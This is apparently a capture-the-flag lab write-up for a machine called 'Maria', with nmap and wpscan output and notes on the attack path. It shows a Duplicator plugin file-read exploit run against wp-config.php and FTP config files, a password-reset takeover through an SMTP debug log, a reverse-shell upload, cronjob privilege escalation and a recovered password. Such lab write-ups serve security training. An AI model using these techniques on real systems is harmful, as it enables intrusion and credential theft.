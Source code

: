 # Maria \[Inter]

## Report

Vulnerable plugins, 'duplicator' and 'easy-wp-smtp' are vulnerable to arbritary file read and information disclosure via logs respectively. MySQL version '5.5.5' is also vulnerable to RCE as user 'mysql' and expose creds via duplicator LFI to reveal database creds but it's a rabbit hole via wp-config.php. FTP anonymous file access was denied but was visible via LFI exploit (read FTP anon root first) and read the cronjob running binary 'automysqlbackup' which further reveals more database creds which get accepted this time but not enough for SQL RCE to work.

'easy-wp-smtp' can read SMTP debug log files which store all communications in plaintext. We need to generate an email first. Reset password for user admin (google also suggests the same) and find the log file location via 'wp\_options' table from MySQL db and access the reset password link and login as admin to upload PHP reverse shell.

The cronjob running as root executes a file which is owned by user 'joseph', modify it to spawn a new shell as root.

## Enumeration

192.168.156.167

21, 22, 80, 3306

```
21/tcp    open   ftp       vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    5 0        0            4096 Sep 21  2018 automysqlbackup
22/tcp    open   ssh       OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp    open   http      Apache httpd 2.4.38
| http-methods: 
|_  Supported Methods: HEAD
3306/tcp  open   mysql     MySQL 5.5.5-10.3.27-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 24
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, SupportsTransactions, Speaks41ProtocolOld, IgnoreSigpipes, InteractiveClient, LongColumnFlag, DontAllowDatabaseTableColumn, ConnectWithDatabase, SupportsLoadDataLocal, SupportsCompression, FoundRows, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, ODBCClient, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: A2sq_e_/f9)_'?I0T8Y7
|_  Auth Plugin Name: mysql_native_password

```

We have a MySQL RCE exploit but need creds (MySQL 5.5.5-10.3.27-MariaDB)

WordPress don't even have plugins this time&#x20;

FTP don't allow random access

Aint forget bout these \
\| Salt: A2sq\_e\_/f9)_'_?I0T8Y7 | Auth Plugin Name: mysql\_native\_password

#### 21 (FTP)

Cannot download files - access denied for Anonymous

#### 80 (WordPress)

```
[+] Headers
 | Interesting Entry: Server: Apache/2.4.38 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.225.167/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.225.167/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.225.167/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.225.167/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.7.1 identified (Insecure, released on 2021-04-15).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.225.167/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.7.1'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.225.167/, Match: 'WordPress 5.7.1'
 
 [+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```

Did not find plugins again jeez

```
wpscan --url http://192.168.195.167/ -e ap --plugins-detection aggressive
[+] akismet
 | Location: http://192.168.183.167/wp-content/plugins/akismet/
 | Latest Version: 5.5
 | Last Updated: 2025-07-15T18:17:00.000Z
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.183.167/wp-content/plugins/akismet/, status: 403
 |
 | The version could not be determined.

[+] duplicator
 | Location: http://192.168.183.167/wp-content/plugins/duplicator/
 | Last Updated: 2025-09-12T16:17:00.000Z
 | Readme: http://192.168.183.167/wp-content/plugins/duplicator/readme.txt
 | [!] The version is out of date, the latest version is 1.5.13.3
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.183.167/wp-content/plugins/duplicator/, status: 200
 |
 | Version: 1.3.26 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.183.167/wp-content/plugins/duplicator/readme.txt

[+] easy-wp-smtp
 | Location: http://192.168.183.167/wp-content/plugins/easy-wp-smtp/
 | Last Updated: 2025-09-01T11:49:00.000Z
 | Readme: http://192.168.183.167/wp-content/plugins/easy-wp-smtp/readme.txt
 | [!] The version is out of date, the latest version is 2.12.0
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.183.167/wp-content/plugins/easy-wp-smtp/, status: 200
 | Version: 1.4.1 (100% confidence)
```

## Loot

### Initial Foothold

Wordpress Plugin Duplicator 1.3.26 - Unauthenticated Arbitrary File Read (**50420)**

```
python3 50420.py http://192.168.183.167 /etc/apache2/sites-enabled/000-default.conf
DocumentRoot /var/www/html/wordpress

/var/www/html/wordpress/wp-config.php

define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'wordpress' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

can't login to sql as user wordrpress, enumerate FTP using our LFI exploit

`python3 50420.py http://192.168.183.167 /etc/vsftpd.conf`

`anon_root=/srv/ftp`

Read the initial binary from ftp for mysqlautomate, mentions if a file exists, run the binary, go check that file

```
python3 50420.py http://192.168.183.167 /srv/ftp/automysqlbackup/usr/sbin/automysqlbackup
python3 50420.py http://192.168.183.167 /etc/default/automysqlbackup
```

Running MySQL exploit RCE for that&#x20;

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption><p>Rabbit hole</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption><p>Perform password reset first</p></figcaption></figure>

Become admin and upload revshell

### PrivEsc

The cronjob running, yeah

### Creds

backup:EverydayAndEverynight420

### Proof
